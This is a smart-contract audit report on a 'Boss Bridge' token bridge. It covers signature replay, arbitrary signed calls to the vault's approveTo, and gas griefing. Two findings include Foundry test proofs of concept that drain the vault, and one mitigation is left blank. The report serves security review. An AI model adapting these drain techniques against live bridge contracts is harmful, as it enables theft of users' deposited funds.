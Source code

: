 # BOSS BRIDGE AUDIT REPORTS

# High

# [H-1] Signature replay attack at `L1BossBridge::sendToL1`

**Description:** Message signing do not contain single-use mechanism such `nonce` or `deadlines`. Hence, signatures can be used `n` number of times in order to execute `messages`.

**Impact:** Transfer signed by Signers can be executed by anyone effectively sending or withdrawing `n` number of times identical transaction as long as `L1BossBridge` owns or manages enough `L1Tokens` on `L1Vault`.

**Proof of Concept**

- Signatures are not one-usage and there's no mechanism from L1 to determine that user locked and unlocked tokens;

```javascript
   function testSignatureReplayAttacks() public {
        uint256 amount = 1 ether;

        uint256 vaultInitialBalance = 100e18;
        uint256 userInitialBalance = token.balanceOf(user);
        deal(address(token), address(vault), vaultInitialBalance);

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(user, amount),
            operator.key
        );

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(user, amount, v, r, s);
        }

        uint256 userEndingBalance = token.balanceOf(user);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(userEndingBalance, vaultInitialBalance + userInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommended Mitigation**

- usage of nonces to enable one-usage signatures
- usage of deadlines to allow signature validity within a time range.

```diff
    function _getTokenWithdrawalMessage(
        address recipient,
        uint256 amount
    ) private view returns (bytes memory) {
+       nonce += 1;
        return
            abi.encode(
+               nonce,
                address(token), // target
                0, // value
                abi.encodeCall(
                    IERC20.transferFrom,
                    (address(vault), recipient, amount)
                ) // data
            );
    }
```

# [H-2] Any user is able to call `Bossbridge -> Vault::ApproveTo` to take control over an amount of tokens, in order to drain vault balance.

**Description:** There's no regulation about what kind of messages can be signed, it's just a request so as to get a valid signature to redeem L2 tokens into L1 `knowing that exists a valid Deposit event on L1`, users can leverage it to request signatures over any kind of message.

**Impact:** the following vulnerabilty catches the attention of malicious users due to the facility oo draining all funds in a vault.

**Proof of concept:**

```javascript

    function testMaliciousMessageSignatures() public {
        uint256 vaultInitialBalance = 100e18;
        deal(address(token), address(vault), vaultInitialBalance);

        address attacker = makeAddr("attacker");

        bytes memory message = abi.encode(
            address(vault),
            0,
            abi.encodeCall(vault.approveTo, (attacker, vaultInitialBalance))
        );

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        vm.prank(attacker);
        token.transferFrom(address(vault), attacker, vaultInitialBalance);

        uint256 attackerBalance = token.balanceOf(attacker);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(attackerBalance, vaultInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommened Mitigation:**

# [H-3] Users might charge with high gas consumption during a `Withdraw` to L1 from L2, making `BossBridge` to spend more ether in gas as the transfer occurs.

**Description:** while requesting withdraws, `BossBridge` has to perform a transfer from `Vault` to a recipient, this operation is an external call, recipients might implement complex logic on receiving tokens.

